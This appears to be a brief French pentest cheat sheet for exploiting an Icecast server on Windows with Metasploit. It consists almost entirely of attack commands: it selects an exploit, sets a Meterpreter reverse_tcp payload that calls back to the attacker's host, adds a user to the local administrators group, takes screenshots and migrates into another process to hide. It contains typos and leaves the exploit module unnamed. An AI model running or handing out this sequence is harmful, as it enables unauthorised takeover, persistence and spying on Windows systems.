 
## run icecast en admin sur windows


	smfconsole  
	search icecast  
	use exploit/xx 
	set payload windows/meterpreter/reverse_tcp  
	set rhost  xx
	set lhost  xx
	
	sysinfo  
	getuid  
	ps  
	
	shell
	#add user
	#add user on admin group 
	net localgroup administrators
	
	screenshot -p /tmp/screen/jpg
	
	getpid
	ps -S notepad.exe
	migrate <id>
	get pid
